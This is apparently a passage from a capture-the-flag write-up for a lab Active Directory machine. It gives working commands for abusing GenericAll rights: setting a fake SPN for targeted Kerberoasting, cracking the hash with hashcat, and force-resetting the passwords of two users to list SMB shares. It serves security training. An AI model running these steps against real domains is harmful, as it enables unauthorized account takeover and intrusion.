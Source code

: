 # User
As our starting account, we have the `GenericAll` permissions to the user `michael`. There are several ways we can abuse this privilege: we can either change the user's password or set an SPN on the account and perform a targeted Kerberoasting attack. Let's go for the latter as for the next user we already have to force a password change.

```console
$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'olivia' -p 'ichliebedich' set object michael servicePrincipalName -v 'fake/dc.administrator.htb'
[+] michael's servicePrincipalName has been updated
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael

ServicePrincipalName       Name     MemberOf                                                       PasswordLastSet             LastLogon  Delegation 
-------------------------  -------  -------------------------------------------------------------  --------------------------  ---------  ----------
fake/dc.administrator.htb  michael  CN=Remote Management Users,CN=Builtin,DC=administrator,DC=htb  2024-10-06 03:33:37.049043  <never>               


[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

If you get a `Clock skew too great` error just like me, just run this command that spawns a bash shell with the clock synced to the DC:
```console
$ faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" bash
```

So now we can get the hash, copy it to a file and run hashcat to crack it.

```console
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael
$ hashcat -m 13100 michael.hash $ROCkYOU
```

However, we are not able to crack the hash so let's proceed with the second method and reset the password for the user account. I will also immediately reset the account for Benjamin and check what access we have. From Linux we can use the `net rpc` command.

```console
$ net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
$ net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.10.11.42"
$ nxc smb 10.10.11.42 -u 'benjamin' -p 'newP@ssword2022' --shares

SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```
